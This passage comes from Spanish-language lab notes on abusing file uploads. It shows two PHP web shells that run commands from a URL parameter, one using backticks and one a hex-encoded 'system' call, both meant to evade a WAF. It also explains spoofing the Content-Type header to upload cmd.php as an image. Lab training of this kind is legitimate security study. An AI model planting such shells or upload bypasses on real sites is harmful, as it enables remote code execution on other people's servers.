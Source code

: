 Comprobamos que sea interpretado correctamente como siempre.

![[Abuso subida A 18.png]]

------

Podemos hacer como atacantes en caso de que tengamos que **Bypassear un Waff** (*Web applicattion firewall*) que no nos permita utilizar la función ``system`` de **php** es lo siguiente.

```php
<?php
	$c=$_GET['cmd'];
	echo `$c`;
>?
```

De esta forma podríamos emplear la llamada a nivel de sistema del comando pero sin el uso de esa función

-------

Podemos colocar la función ``system`` de php en hexadecimal y también funcionaría, esto quedaría tal que así.

```php
<?php
	"\x73\x79\x73\x74\x65\x6d"($_GET['cmd']);
>?
```
## Upload 21 (Cambio de Content-Type)

En este escenario veremos que a la hora de intentar subir nuestro archivo, nos dará un error "*Forbidden file type*", y en la **Restricción** indica que es de *File Type*. Cuando se habla del tipo de archivo esto hace referencia al *Content-Type*, ya que a través de el se realiza la validación del tipo de archivo como tal.

Nosotros al subir un recurso en una web, del tipo que sea ya sea una **foto**, un **php**, un **archivo textual**, etc, en base a los llamados "**Magic Numbers**" que son los primeros Bytes del archivo, es posible detectar que tipo de archivo estamos subiendo. 
En nuestro caso al intentar subir un archivo ``.php``, el *Content-Type* pondrá ``application/x-php`` que **es el Content-Type asociado a archivos php**, si nosotros subiéramos una imagen, veríamos que el *Content-Type* sería ``image/jpg``.

Dicho todo lo anterior, nosotros podríamos **modificar** el *Content-Type* de manera manual para decirle a la web que nosotros estamos subiendo un archivo ``jpg`` por ejemplo, cuando en realidad **estamos subiendo nuestro cmd.php**.

![[Abuso subida A 19.png]]

Verificamos que el **RCE** sea interpretado.

![[Abuso subida A 20.png]]
## Upload 23 (Magic Numbers)
